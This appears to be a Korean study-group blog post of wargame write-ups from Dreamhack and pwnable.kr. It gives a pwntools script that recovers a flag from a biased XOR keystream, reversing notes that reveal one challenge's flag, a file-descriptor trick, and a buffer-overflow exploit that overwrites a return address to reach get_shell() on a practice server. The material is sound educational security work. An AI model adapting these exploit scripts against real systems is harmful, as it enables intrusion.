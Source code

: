 ```yaml
---
title: "[CAUTION] 스터디 - 1"
categories:
  - study
tags:
  - dreamhack
toc: true
toc_sticky: true
toc_label: "스터디 - 1"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Caution 스터디 1회차(5월 첫째 주)
{: .notice--warning}

# 암호학 - 1

**[CS448](https://dreamhack.io/wargame/challenges/452/)**
    
```python
def encrypt(s, k):
    res = ""
    if k <= len(s):
        _print("[!] key shold be larger then len(pt) for safty!!")
        return ""
    for i, c in enumerate(s):
        enc = (get_random_u8() + key * i) % 0xff
        enc = ord(c) ^ enc
        res += hex(enc)[2:].rjust(2, "0")
    return res
```

위의 코드와 같은 방식으로 암호화를 수행한다.

취약점이 발생하는 부분은 %0xff 이다.

```key stream : (get_random_u8() + key * i) % 0xff``` 부분을 잘 생각해 보면 그 결과로 0~254 까지의 결과가 나오는 것을 알 수 있다.

이것이 왜 문제인지 생각해보자. 임의의 평문 'X'에 대해서 암호화를 통해서 나올 수 있는 모든 결과는 8bit 결과이므로 00000000 ~ 11111111 로 총 256개이다.

근데 현재 키 스트림은 0~254까지의 범위를 가지므로 255개의 키 스트림이 있다.

즉, 임의의 문자 'X'에 대해서 계속 암호화를 수행하면 'X' xor '11111111' 의 결과가 누락되게 된다.

그러면 우리는 하나의 글자에 대해서 계속 암호화를 수행하면서 어떠한 결과가 나왔는지를 전부 기록한 뒤에, 0-255중에 한 번도 안나온 결과를 찾으면 된다. 그러면 그 숫자가 바로 
'X' xor '11111111'이 되는 것이다.

이를 코드로 구현하면 다음과 같다. 모든 flag 하나하나에 대해서 bruteforce를 하다보니, 결과가 나오는데 시간이 꽤 걸린다. 

```python
from pwn import *


p = remote('host1.dreamhack.games',10819)

key = 255

p.sendlineafter('>> ','3')
p.sendlineafter('key >> ','255')
p.recvuntil('result : ')

enc_flag = p.recvline()
flag_len = len(enc_flag) // 2
flag_set = [list(range(256)) for _ in range(flag_len)]
flag = [0 for x in range(flag_len)]

while True:
    p.sendlineafter('>> ','3')
    p.sendlineafter('key >> ','255')
    p.recvuntil('result : ')
    
    enc_flag = bytes.fromhex(p.recvline()[:-1].decode())

    for i in range(flag_len):
        # flag_set에서 찾는 글자 하나씩 삭제
        if flag_set[i].count(enc_flag[i]) == 1:
            flag_set[i].remove(enc_flag[i])
        
        # 한개 남은 결과에 255 xor 하면 원래 글자
        if len(flag_set[i]) == 1:
            flag[i] = chr(flag_set[i][-1] ^ key )

    print([len(x) for x in flag_set])    
    if 0 not in flag:
        break
            
print(''.join(flag))

```


![image](https://user-images.githubusercontent.com/33647663/167166094-8731c708-f5ae-4399-b1f7-a965f2af6329.png)


# 리버싱 - 1
**[rev-basic-0](https://dreamhack.io/wargame/challenges/14/)**

리버싱 기초문제

IDA로 열면 바로 strcmp가 보임

![image](https://user-images.githubusercontent.com/33647663/167167482-413fd717-1ab8-453a-84bd-3545fbd6307d.png)


# 리버싱 - 2
**[rev-basic-2](https://dreamhack.io/wargame/challenges/16/)**

![image](https://user-images.githubusercontent.com/33647663/167168558-de394732-9760-4364-b18b-12707b202817.png)


각각의 input(a1)에 대해서, aC[] 배열과 비교를 하고 있다.
총 길이는 18글자 이며, aC배열은 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167168899-099070a1-4fb3-4078-bc26-6c82a93ac5ae.png)

데이터 타입을 array로 바꾸면 더 보기 쉽다.

![image](https://user-images.githubusercontent.com/33647663/167169712-de730a70-d4b6-44e2-8287-d016aecbc849.png)

마지막 null문자를 제외하면 총 17글자로 
flag는 'Comp4re_the_arr4y'이다.


# 시스템 - 1

**[pwnable.kr](https://pwnable.kr/play.php) [fd]**

문제의 코드는 다음과 같다.

```c
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

argv[1] - 0x1234 값을 fd로 하여 해당 fd로 데이터를 읽어온다.

stdin 이 fd 0 이므로 argv[1]로 0x1234인 4660 데이터를 넘겨준다.

넘겨주면 사용자의 입력값을 기다리게 되고, 이때 비교 문자열인 'LETMEIN'을 입력해 주면 flag를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167191157-e2c61f67-9c03-48e7-baca-1b795ae87d48.png)



# 시스템 - 2

**[Return Address Overwrite](https://dreamhack.io/wargame/challenges/351/)**
메인함수를 시작할때 스택 상태는 아래와 같다


![image](https://user-images.githubusercontent.com/33647663/167182991-88bc7d37-2f97-4069-aae8-dffe211841a0.png)

그림으로 표현해보면 스택 상태는 다음과 같다

![image](https://user-images.githubusercontent.com/33647663/167183968-75242f51-75c8-469a-b592-59392ff0ed25.png)

buf에 입력 받을때 bof 취약점이 있으니, 56byte는 더미로 채워주고 8 byte를 get_shell() 함수의 주소를 입력하여 익스플로잇 한다.

get_shell()의 주소는 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167184372-2064a6d2-7f00-4bf1-b8d0-1ee0331d7bcf.png)

쉘 코드는 다음과 같이 작성해 준다.

```python
from pwn import *

p = remote('host1.dreamhack.games',21598)
context.log_level= 0

# get_shell() : 0x00000000004006aa
p.recvuntil(b'Input: ')
payload = 'A' * 0x30
payload += 'B' * 8
payload += '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)
p.interactive()
```


실행하면 다음과 같이 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167182774-e216d7eb-0a9c-4465-b75f-5b9cc969751b.png)